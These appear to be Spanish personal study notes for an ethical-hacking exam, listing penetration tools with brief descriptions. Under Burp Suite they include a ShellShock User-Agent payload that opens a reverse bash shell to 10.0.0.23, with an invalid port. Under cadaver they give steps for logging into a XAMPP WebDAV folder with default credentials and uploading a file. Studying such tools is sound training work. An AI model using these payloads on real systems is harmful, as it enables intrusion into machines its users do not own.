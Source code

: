 # Tools revisadas

miércoles, 07 de febrero de 2018

10:49

**Preparación para examen**

[https://ceh.cagy.org/](https://ceh.cagy.org/)



[https://tryhackme.com/games/koth/join/d80d7c8fe47bd9d72eac99ef](https://tryhackme.com/games/koth/join/d80d7c8fe47bd9d72eac99ef)

**7z2john**

**Necesita compilar esta librería** [https://www.cpan.org/modules/by-module/Compress/Compress-Raw-Lzma-2.074.tar.gz](https://www.cpan.org/modules/by-module/Compress/Compress-Raw-Lzma-2.074.tar.gz)

**AirNG** -\&gt;Monitorea y sirve para capturar password de routers wifi

**Armitage** -\&gt; versión amistosa/interfaz de Metasploit

**Arpspoof** -\&gt; suplanta el arp. Sirve para hacer _man in the middle_

**Burpsuit** -\&gt; sirve para interceptar el tráfico web y modificarlo antes de procesarlo.

Detener una petición de get y modificar el user agent (ShellShock)

User-Agent:() { :; }; /bin/bash -c &#39;bash -i \&gt;&amp; /dev/tcp/10.0.0.23/80850 0\&gt;&amp;1&#39;

[**CACTUSTORCH**](https://github.com/mdsecactivebreach/CACTUSTORCH) **-\&gt;** FrameWork que permite la generación de archivos word capaces de devolver session reversa de tipo meterpreter.

**Cadaver --\&gt; para conectarse a servicios webdav**

**$cadaver**  **http://\&lt;ip\&gt;/webdav**

1. login to the XAMPP server&#39;s WebDAV folder

- cadaver http://\&lt;REMOTE HOST\&gt;/webdav/
- user: wampp
- pass: xampp

1. upload a file to the webdav folder

- put /tmp/helloworld.txt

1. browse to your uploaded file

- load URL, http://\&lt;REMOTE HOST\&gt;/webdav/helloworld.txt, in browser

_Desde \&lt;_[_http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html_](http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html)_\&gt;_



**Cewl** -\&gt; (Accent Keyword Extractor) extrae las palabras de una página web y genera un diccionario

cewl \&lt;url\&gt; -d 0 -m 6 -w \&lt;nombre.dic\&gt;
